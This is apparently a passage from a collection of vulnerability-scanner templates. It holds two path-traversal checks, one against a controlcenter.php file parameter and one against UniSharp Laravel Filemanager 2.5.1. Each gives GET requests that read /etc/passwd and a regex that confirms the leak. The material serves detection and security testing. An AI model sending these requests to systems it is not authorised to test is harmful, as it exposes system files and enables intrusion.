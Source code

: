 ## Requests

- Method - GET

### URL

- {{BaseURL}}/controlcenter.php?opt=contents/Files&dir=%2Fetc&ffile=passwd&opmod=open

### Matchers

**Type - regex**

- regex
  1. root:.\*:0:0:

**Type - status**

- status
  1. 200

---

# UniSharp aka Laravel Filemanager v2.5.1 - Directory Traversal

## Description

- UniSharp laravel-filemanager (aka Laravel Filemanager) through 2.5.1 allows download?working_dir=%2F.. directory traversal to read arbitrary files.

- severity - medium
- tags - cve,cve2022,laravel,unisharp,lfi,traversal

## Requests

- Method - GET

### URL

- {{BaseURL}}/download?working_dir=%2F../../../../../../../../../../../../../../../../../../../etc&type=Files&file=passwd
- {{BaseURL}}/laravel-filemanager/download?working_dir=%2F../../../../../../../../../../../../../../../../../../../etc&type=Files&file=passwd

### Matchers

**Type - regex**

- regex
  1. root:[x*]:0:0

---

